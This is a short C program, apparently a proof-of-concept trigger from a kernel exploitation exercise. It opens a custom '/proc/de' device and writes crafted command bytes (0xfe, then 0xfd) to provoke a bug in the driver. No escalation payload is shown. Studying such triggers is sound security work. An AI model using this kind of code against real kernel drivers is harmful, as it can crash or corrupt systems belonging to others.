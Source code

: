 ```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stropts.h>
#include <sys/wait.h>
#include <sys/stat.h>

int main()
{
    int fd = open("/proc/de",2);
    char *user_buf = (char*)malloc(0x10*sizeof(char));
    user_buf[0] = '\xfe';
    write(fd,user_buf,0x10);
    user_buf[0] = '\xfd';
    write(fd,user_buf,0x1);
    return 0;
}
```

